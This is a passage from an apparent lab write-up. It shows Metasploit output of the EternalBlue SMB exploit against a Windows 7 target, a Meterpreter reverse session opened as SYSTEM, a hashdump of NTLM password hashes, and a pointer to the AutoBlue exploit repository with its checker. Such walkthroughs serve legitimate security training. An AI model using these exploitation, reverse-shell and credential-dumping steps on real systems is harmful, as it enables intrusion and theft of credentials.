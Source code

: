 ```
[*] 10.10.114.85:445  - CORE raw buffer dump (42 bytes)
[*] 10.10.114.85:445  - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.114.85:445  - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.114.85:445  - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.114.85:445  - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.114.85:445  - Trying exploit with 12 Groom Allocations.
[*] 10.10.114.85:445  - Sending all but last fragment of exploit packet
[*] 10.10.114.85:445  - Starting non-paged pool grooming
[+] 10.10.114.85:445  - Sending SMBv2 buffers
[+] 10.10.114.85:445  - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.114.85:445  - Sending final SMBv2 buffers.
[*] 10.10.114.85:445  - Sending last fragment of exploit packet!
[*] 10.10.114.85:445  - Receiving response from exploit packet
[+] 10.10.114.85:445  - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.114.85:445  - Sending egg to corrupted connection.
[*] 10.10.114.85:445  - Triggering free of corrupted buffer.
[*] Sending stage (200262 bytes) to 10.10.114.85
[*] Meterpreter session 1 opened (10.9.102.237:4444 -> 10.10.114.85:49240) at 2021-07-29 12:08:01 -0500
[+] 10.10.122.242:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.122.242:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.122.242:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### Hashes dumping with metasploit

```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

-----------------

## Alternative way without using metasploit.   
Cloning the [3ndG4me/AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010) repository for the intrusion part of the system.
There are other repositories but github but not all are functional, this will depend on you and your research to know which one to choose.

```
❯ python3 eternal_checker.py 10.10.114.85
[*] Target OS: Windows 7 Professional 7601 Service Pack 1
[!] The target is not patched
=== Testing named pipes ===
[*] Done
```
